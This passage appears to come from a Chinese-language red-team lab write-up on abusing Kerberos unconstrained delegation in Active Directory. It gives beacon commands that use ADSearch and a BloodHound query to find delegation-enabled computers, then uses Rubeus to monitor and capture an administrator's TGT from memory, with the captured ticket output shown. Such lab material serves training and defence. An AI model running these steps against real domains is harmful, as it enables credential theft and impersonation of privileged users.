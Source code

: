 ```
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 2
    [+] samaccountname     : DC-2$
    [+] dnshostname        : dc-2.dev.cyberbotic.io
    [+] operatingsystem    : Windows Server 2016 Datacenter

    [+] samaccountname     : SRV-1$
    [+] dnshostname        : srv-1.dev.cyberbotic.io
    [+] operatingsystem    : Windows Server 2016 Datacenter
```

2.  BloodHound
```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
```


## 监听TGT

DC本身总是设置为非约束委派

无约束委托的一个有趣方面是，无论用户正在访问哪个服务，它都会缓存用户的 TGT。

如果管理员访问使用 Kerberos 的计算机上的文件共享或任何其他服务，他们的 TGT 将被缓存

在普通机器上，比如我们现在```srv-1```这台机器上，如果我们通过非约束委派获得了这台机器的权限，就可以在机器的内存中寻找TGT，并且利用其来模拟用户

使用Rubeus监听所有新生成的TGT
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:nlamb /interval:10

[*] Action: TGT Monitoring
[*] Target user     : nlamb
[*] Monitoring every 10 seconds for new TGTs
```

此时如果我们访问```WKSTN-2```，并运行命令```dir \\srv-1\c$```，上面的监听就会产生nlamb的TGT

```
[*] 3/9/2021 11:33:52 AM UTC - Found new TGT:

  User                  :  nlamb@DEV.CYBERBOTIC.IO
  StartTime             :  3/9/2021 11:32:10 AM
  EndTime               :  3/9/2021 9:32:10 PM
  RenewTill             :  1/1/1970 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwarded, forwardable
  Base64EncodedTicket   :
